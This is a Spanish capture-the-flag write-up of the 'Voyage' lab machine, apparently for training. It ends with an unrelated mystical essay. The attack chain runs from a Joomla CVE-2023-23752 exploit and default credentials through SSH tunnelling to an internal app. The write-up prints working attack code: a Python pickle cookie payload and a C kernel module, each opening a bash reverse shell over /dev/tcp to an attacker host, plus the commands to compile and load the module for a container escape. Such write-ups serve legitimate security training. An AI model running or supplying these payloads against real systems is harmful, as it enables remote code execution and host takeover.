



# Voyage

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`, el `2222`, para otro ssh `OpenSSH 8.2p1v`

Enumeramos los directorios que tenemos disponibles en el puerto `HTTP.`&#x20;

<figure><figcaption></figcaption></figure>


Primero, realizamos un análisis de la página web del puerto 80.


<figure><figcaption></figcaption></figure>


Descubrimos que la página utiliza `Joomla` como sistema para el endpoint de `/administrador`, lo que nos permite explotarlo.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Podemos acceder a un exploit a través de este enlace.



Clonamos el repositorio para usarlo

```
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
```

Para conocer como usar el exploit solo ejecutamos el siguiente comando:

```
ruby exploit.rb --h
```

<figure><figcaption></figcaption></figure>

Para utilizarla, solo es necesario enviar la URL como parámetro.

```
ruby exploit.rb hhtp://ip:port
```

De esta manera, obtenemos las credenciales de `root`. Como se puede observar en la salida de nuestro comando, se nos proporciona el sitio que podemos explotar, que es `Tourism`, y nos dirige al endpoint de `/administrador`.


<figure><figcaption></figcaption></figure>

Dado que ninguna de las credenciales es válida para acceder al sistema, podemos intentar con otros puertos.

Por lo tanto, decidimos intentar acceder a través de otros puertos. En el puerto `22` no pudimos ingresar, pero en el puerto `2222` sí logramos acceder.

```
ssh root@<ip> -p 2222
```


<figure><figcaption></figcaption></figure>

# Enum /root 2222

Realizamos un escaneo con` linpeas.sh` y confirmamos que estamos en una máquina virtual, aunque esto se puede deducir por su estructura.

<figure><figcaption></figcaption></figure>

Enumeramos las conexiones de red disponibles en nuestra máquina y descubrimos que contamos con una red interna, lo cual confirmamos al utilizar `nmap`.

```
ip a
```

```
nmap <ip>
```

<figure><figcaption></figcaption></figure>

Observamos que hay un puerto adicional, el `5000`, que corresponde a `UPNP`. Dado que pertenece a una red interna, necesitamos `tunelizar` la web para poder mostrar los resultados públicamente.

```
ssh root@10.201.1.55 -p 2222 -L 5000:192.168.100.12:5000
```

```
ss -lntp | grep 5000
```


```
curl http://127.0.0.1:5000
```

<figure><figcaption></figcaption></figure>

Notamos que se trata de una página con un inicio de sesión, por lo que intentamos con credenciales comunes y logramos acceder al servicio utilizando las siguientes credenciales.

<figure><figcaption></figcaption></figure>


```
admin:admin
```

<figure><figcaption></figcaption></figure>

#  Insecure Deserialization

Podemos observar que la web está utilizando `Werkzeug/3.1.3 y Python/3.10.12`, lo que sugiere que es muy probable que el módulo Python `Pickle` esté manejando la serialización.


```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.10.12
Date: Fri, 12 Sep 2025 02:43:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3564
```

<figure><figcaption></figcaption></figure>


Podemos confirmar esto deserializando el valor de las cookies utilizando el módulo `pickle` de `Python`.

```
 import pickle
 import binascii
 session_data = "8004952a000000000000007d94288c0475736572948c09746573746c6f67696e948c07726576656e7565948c05383838383894752e"
```

<figure><figcaption></figcaption></figure>

Esto confirma que la `cookie` se está serializando con el módulo `Python Pickle` y que probablemente sea similar al código de la aplicación web que gestiona la `cookie`.

Como la carga útil no está firmada, podemos aprovechar un exploit conocido de deserialización de Python, `Pickle Deserialization`, para obtener una shell inversa.

```
import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/ip/port 0>&1"',))

# build pickle payload
payload = pickle.dumps(RCE())

print("[*] Malicious cookie value:")
# get the hex value
print(payload.hex())
```


Inicializamos nuestro oyenete:

```
nc -lvnp 4242
```

Por ultimo hacemos una peticion con la cokkie que generamos con el payload.

```
curl localhost:5000 -b "session_data=cokkie" -s
```

Y obtenermos la bandera del usuario.

<figure><figcaption></figcaption></figure>


# /conteiner

Ahora podemos realizar enumeraciones de escalada de privilegios para identificar posibles vulnerabilidades que nos permitan escapar del contenedor. Hemos encontrado un módulo que puede ayudarnos en este proceso, el `cap_sys_module`.


<figure><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module:~:text=abusing%20this%20privilege.-,Example%20with%20environment%20(Docker%20breakout),-You%20can%20check" %}

Creamos un archivo en C denominado `reverse-shell.c`.

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

Creamos un archivo `Makefile`

```
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

Lo compilamos, pero nos arroja un error porque no encuentra los módulos disponibles. Por lo tanto, buscamos su ubicación.

```
ls /lib/modules/
```

```
ls /lib/modules
6.8.0-1017-aws
6.8.0-1029-aws
6.8.0-1030-aws
6.8.0-1031-aws
```
Como vemos nos despleba varios, para saaber cual podemos ponerlo usamos:

```
uname -r
```

<figure><figcaption></figcaption></figure>


Verificamos su existencia y, con eso, solo ajustamos las redirecciones, quedando de la siguiente manera:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules

clean:
        make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
```

Iniciamos el oyente

```
nc -lvnp 4243
```

con esto ahora podemos compilar el módulo del kernel y cargarlo

```
make

insmod reverse-shell.ko
```

<figure><figcaption></figcaption></figure>

De esta manera, logramos obtener la `shell` de `root` y escapar del contenedor.

<figure><figcaption></figcaption></figure>

--------------------

>*La idea de que el todo está en todas partes y en ninguna parte sugiere que la divinidad no es un lugar al que se llega ni un ser al que se ora. Es un principio invisible que habita en todo, pero que no puede ser capturado por nada. El todo representa el principio antes del tiempo, el susurro antes del pensamiento, la vibración antes del sonido, lo que reside dentro del átomo y lo que flota en el silencio del vacío.*
>
>*Si el todo está en ninguna parte, surge la pregunta de dónde lo buscamos, a qué estamos adorando y qué parte de nosotros lo contiene. Este es el verdadero misterio: no se trata de encontrar el todo, sino de recordar que somos parte de Él, no desde el ego ni el cuerpo, sino como una chispa que olvidó que era fuego. Es una conciencia que se disfrazó de humano para jugar a estar perdida.*
>
>*El mundo material en el que vivimos es solo un teatro, y la materia es una máscara. Todo lo que ves, tocas, consumes o anhelas forma parte de este juego. Sin embargo, el verdadero todo ni siquiera necesita participar. El Corpus Hermeticum lo afirmaba sin temor: los humanos que comprenden esta verdad dejan de ser esclavos del sistema del tiempo y de la muerte. Quien reconoce el todo ya no teme perder nada, porque ya lo es todo.*
>
>*Este conocimiento no está destinado a las masas; fue reservado para aquellos que se atreven a cuestionar el todo. Al darse cuenta de que el todo no está en un lugar concreto, también comprenden que nada les pertenece: ni su cuerpo, ni su nombre, ni siquiera su mente. Solo el alma sabe, solo el alma recuerda y solo el alma puede regresar. Sin embargo, no todos lo lograrán, ya que muchos prefieren la jaula de lo conocido al abismo de lo eterno. Quien busca afuera se pierde, mientras que quien se encuentra adentro ya no busca.*
>
><figure><figcaption></figcaption></figure>